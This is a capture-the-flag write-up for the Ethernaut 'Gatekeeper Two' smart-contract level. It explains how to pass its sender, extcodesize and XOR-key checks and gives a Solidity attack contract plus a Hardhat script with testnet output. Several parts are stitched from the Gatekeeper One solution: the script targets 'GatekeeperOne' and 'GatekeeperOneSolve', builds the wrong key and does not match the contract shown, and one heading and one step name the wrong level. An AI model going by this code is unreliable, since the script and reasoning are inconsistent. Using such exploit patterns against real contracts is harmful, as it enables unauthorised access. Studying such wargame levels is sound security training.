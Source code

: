 ```yaml
---
title: "Ethernaut #14 Gatekeeper Two"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper Two challenge writeup
---
```


## Gatekeeper Two

### Challenge

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is somewhat similar to `GatekeeperOne`. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge.

The `extcodesize` bytecode returns (pushes onto the stack) the size of the contract it got as an argument (poped from the stack). According to the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) section 7, page 11, footnote 5, 

> During initialization code execution, EXTCODESIZE on the address should return zero...

This will be very useful in order to bypass the second modifier.

The `keccack` function is the hash function used on the ethereum blockchain.


### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `extcodesize` needs to return a value of `0`. As discussed already, this can be achieved if the caller code (in this case the attacker controlled contract), is executed during its initialization (`constructor` execution). Finally the last `modifier` requires the a simple `boolean` equation to be satisfied. This operation is very easy to reverse since its just an `XOR` (`^`) operator. 

* Create a contract that calls the `GatekeeperOne` `enter` function during the `constructor` execution
* To calculate the `_gateKey` to provide simply re-arranging the check to `_gateKey = (uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))))`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperTwo.sol';

contract GatekeeperTwoSolve {

    constructor(address payable _gatekeeperTwoAddress) public {
        GatekeeperTwo gatekeeperTwoContrtact = GatekeeperTwo(_gatekeeperTwoAddress);
        bytes8 gateKey = bytes8((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))));
        gatekeeperTwoContrtact.enter(gateKey);
    }

}
```


#### gatekeeper-two-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/gatekeeper-two-solve.js --network rinkeby
Compiled 1 Solidity file successfully
Initial entrant: 0x0000000000000000000000000000000000000000
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).

(unfortunately by the time I was done with this the 128 spots were already filled)
